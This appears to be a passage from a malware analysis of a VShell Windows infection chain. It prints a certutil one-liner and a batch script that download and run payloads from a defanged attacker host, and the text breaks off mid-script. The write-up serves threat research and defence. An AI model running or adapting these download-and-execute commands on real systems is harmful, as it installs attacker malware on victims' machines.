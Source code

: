 [![2](/assets/images/china/image5.png)](/assets/images/china/image5.png){: .full}

## VShell - Windows one-liner

### Stage 1 

```
certutil.exe -urlcache -split -f hxxp://microsoft-symantec[.]art:8848/swt C:\Users\Public\run.bat && C:\Users\Public\run.bat
```

* This uses the LOLBin, [`certutil.exe`](https://lolbas-project.github.io/lolbas/Binaries/Certutil/), in order to download a secondary payload - `C:\Users\Public.bat`

### Stage 2

We can download the batch script ourselves for further analysis:

```bash
@echo off
setlocal enabledelayedexpansion

set u64="hxxp://microsoft-symantec[.]art:8848/?h=microsoft-symantec.art&p=8848&t=tcp&a=w64&stage=true"
set u32="hXXp://microsoft-symantec[.]art:8848/?h=microsoft-symantec.art&p=8848&t=tcp&a=w32&stage=true"
set v="C:\Users\Public\07f79946tcp.exe"
del %v%
for /f "tokens=*" %%A in ('wmic os get osarchitecture ^| findstr 64') do (
    set "ARCH=64"
)
if "%ARCH%"=="64" (
    certutil.exe -urlcache -split -f %u64% %v%
) else (
    certutil.exe -urlcache -split -f %u32% %v%
```